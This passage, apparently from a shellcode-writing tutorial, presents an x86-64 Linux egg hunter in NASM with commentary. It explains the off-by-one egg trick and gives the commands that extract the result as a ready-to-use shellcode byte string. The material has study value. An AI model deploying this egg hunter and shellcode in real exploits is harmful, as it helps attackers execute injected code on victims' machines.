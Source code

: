 ```nasm
    or di, 0xfff
    
    ; go to the next memory address
    inc rdi

CheckAddress:

    ; call the syscall 80 (chdir)
    xor eax, eax
    mov al, 80
    syscall

    ; check if the last byte of RAX is equal to the last byte
    ; of the error EFAULT (0xfffffff2)
    cmp al, 0xf2
    jz NextPage

    ; set EAX to the egg
    mov eax, 0x74636273
    dec eax

    ; compare the egg with the bytes pointed to by RDI
    ; also increase RDI by 4
    scasd

    ; if it is not the egg, then go back and check the next address
    jnz CheckAddress

    ; jump at the beginning of the actual shellcode
    call rdi
```

<figcaption class="figure-caption">Egg Hunter Shellcode</figcaption>

Note that the `CheckBytes` routine does not contain an exact copy of the egg, however it's slightly modified, in this case the last byte is increased by `0x1`.

Therefore, in order to calculate the real egg, it uses the assembly instruction `DEC` to decrease the value of the modified egg.

This was done to avoid another exact occurrence of the egg, which could lead to the egg hunter finding the latter instead of the egg prepended to the shellcode.

To obtain the shellcode from the previous assembly program, you can use these instructions:

```bash
nasm -f elf64 egghunter.nasm
objcopy -O binary -j .text egghunter.o /dev/stdout | od -An -t x1  | tr -d '\n' | sed -r 's/^ |$/"/g;s/\s?([0-9a-f]{2})/\\x\1/g'

# Result:
# "\x31\xff\x48\xf7\xe7\x66\x81\xcf\xff\x0f\x48\xff\xc7\x31\xc0\xb0\x50\x0f\x05\x3c\xf2\x74\xee\x8b\x17\xbe\x73\x62\x63\x74\xff\xce\x39\xf2\x75\xe6\x48\x83\xc7\x04\xff\xd7"
```
